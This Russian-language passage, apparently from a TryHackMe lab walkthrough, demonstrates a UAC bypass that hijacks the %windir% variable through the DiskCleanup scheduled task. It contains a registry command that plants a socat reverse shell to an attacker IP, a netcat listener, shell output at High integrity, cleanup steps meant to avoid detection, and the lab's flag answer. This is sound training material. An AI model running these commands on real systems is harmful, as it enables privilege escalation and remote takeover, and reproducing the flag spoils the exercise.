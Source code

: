 Где все, что находится после «REM», игнорируется как комментарий.


#### Собираем все вместе
Давайте настроим прослушиватель для обратной оболочки с помощью nc:
`nc -lvp 4446`

Затем мы подключимся к предоставленному бэкдору через порт 9999:
`nc MACHINE_IP 9999`

И наконец, выполните следующие команды, чтобы записать нашу полезную нагрузку, %windir%а затем выполните задачу DiskCleanup  (обязательно замените свой IP-адрес, где это необходимо) :

Командная строка
```commandline
C:\> reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f

C:\> schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

В результате вы должны получить оболочку с высоким IL:

Машина атакующего
```commandline
user@kali$ nc -lvp 4446      
Listening on 0.0.0.0 4446
Connection received on 10.10.183.127 25631
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

Чтобы получить флаг DiskCleanup, используйте новую оболочку для выполнения:

Администратор: Командная строка
`C:\flags\GetFlag-diskcleanup.exe`
Примечание: Имейте в виду, что флаг будет возвращен только в том случае, если вы успешно обошли UAC с помощью 
diskcleanup и только из получившейся высокоинтегрированной оболочки с помощью socat.

Расчищаем наши следы
В результате выполнения этого эксплойта в целевой системе были созданы некоторые артефакты, такие как ключи реестра. 
Чтобы избежать обнаружения, нам нужно убрать за собой с помощью следующей команды:

`reg delete "HKCU\Environment" /v "windir" /f`
Примечание: Обязательно выполните данную команду, чтобы избежать помех при выполнении следующих задач. Поскольку 
многие компоненты Windows полагаются на переменную среды %windir%, многое не будет работать должным образом, пока 
вы не удалите раздел реестра, используемый для этого обхода.

### Ответьте на вопросы ниже
Какой флаг возвращается при запуске эксплойта DiskCleanup?
```commandline
THM{SCHEDULED_TASKS_AND_ENVIRONMENT_VARS}
```
